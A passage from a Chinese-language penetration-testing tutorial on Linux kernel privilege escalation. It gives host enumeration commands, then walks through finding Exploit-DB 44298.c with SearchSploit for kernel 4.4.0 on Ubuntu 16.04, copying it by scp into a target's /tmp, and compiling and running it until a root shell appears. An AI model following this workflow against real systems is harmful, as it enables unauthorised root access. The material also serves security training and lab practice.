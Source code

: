 - 查看当前用户
  whoami
- 查看RedHat 版本
  cat /etc/redhat-release

### 02-查找EXP

- SearchSploit是用于 Exploit DB 的命令行搜索工具(kail自带)
- Exploit database 漏洞库网站
- Github [SecWiki](https://github.com/SecWiki/linux-kernel-exploits)

### 03-例子

运行命令【 id 】查看当前用户以及权限，发现当前用户为【 mark 】， UID 为【 1001 】。

```bash
-bash-4.3$ uname -r
4.4.0-93-generic
-bash-4.3$  cat  /etc/issue
Ubuntu 16.04.3 LTS \n \l
```

使用Kali 下的Searchsploit 根据内核版本 4.4.0 搜索 EXP，发现当前操作统的内核版本【 4.4.0 93 】小于【 4.4.0 116 】，并且系统版本也符合【 16.04 】，所以定位的 EXP 为【 44298.c 】

```bash
root@kali:~# searchsploit linux kernel 4.4.0 ubuntu 16.04
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64 | linux_x86-64/local/40871.c
Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - Ne | linux_x86-64/local/40049.c
Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.0 | windows_x86-64/local/47170.c
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - L | linux/local/44298.c
Linux Kernel < 4.4.0-21 (Ubuntu 16.04 x64) -  | linux_x86-64/local/44300.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu  | linux/local/43418.c
Linux Kernel < 4.4.0/ < 4.8.0 (Ubuntu 14.04/1 | linux/local/47169.c
---------------------------------------------- ---------------------------------
Shellcodes: No Results
root@kali:~# searchsploit -m /linux/local/44298.c
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
File Type: C source, ASCII text, with CRLF line terminators
Copied to: /root/44298.c
```

定位到EXP 后下一步要做的是想办法将 EXP 上传到目标系统，将EXP 远程拷贝到目标系统的【 tmp 】目录下，通常所有用户对【 tmp 】目录都具有读写权限

```bash
root@kali:~/桌面# scp /usr/share/exploitdb/exploits/linux/local/44298.c mark@192.168.86.201:/tmp/	
```

使用 gcc 编译上传的 EXP ，然后运行编译输出的文件【 payload 】，发现提升为 root 权限

```bash
-bash-4.3$ gcc 44298.c -o payload
-bash-4.3$  ./payload
task_struct=ffff88002d90e900
uidptr=ffff88002df51304
spawning root shell
root@any:/tmp#
```
